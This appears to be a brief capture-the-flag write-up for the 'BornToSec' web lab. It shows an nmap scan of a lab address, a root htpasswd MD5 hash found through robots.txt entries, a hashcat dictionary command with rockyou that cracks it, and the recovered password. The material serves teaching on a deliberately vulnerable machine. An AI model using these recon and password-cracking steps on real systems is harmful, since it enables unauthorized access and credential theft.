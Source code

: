 # Htpasswd Based Authentication

<!-- Depends on network -->
nmap -v -A -T4 192.168.56.103

We find 2 directories:
```shell
	PORT   STATE SERVICE VERSION
	80/tcp open  http    nginx 1.4.6 (Ubuntu)
	|_http-favicon: Unknown favicon MD5: E7D08792AE6EC9DBBF3CEBFB48EE4057
	| http-methods:
	|_  Supported Methods: GET HEAD POST
	| http-robots.txt: 2 disallowed entries
	|_/whatever /.hidden
	|_http-server-header: nginx/1.4.6 (Ubuntu)
	|_http-title: BornToSec - Web Section
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
In whatever there is a htpasswd file that contain:
root:437394baff5aa33daa618be47b75cb49

It looks like MD5, we can try to bruteforce it with hashcat and rockyou:
```shell
hashcat -m 0 -a 0 hash /<PATH>/rockyou.txt --force
```
We find:
437394baff5aa33daa618be47b75cb49:qwerty123@
We can't connect to this in login page but there is an admin connect page

## External Resources

https://httpd.apache.org/docs/2.4/fr/programs/htpasswd.html
https://defendtheweb.net/discussion/1159-bypassing-htaccesshtpasswd-based-authentication
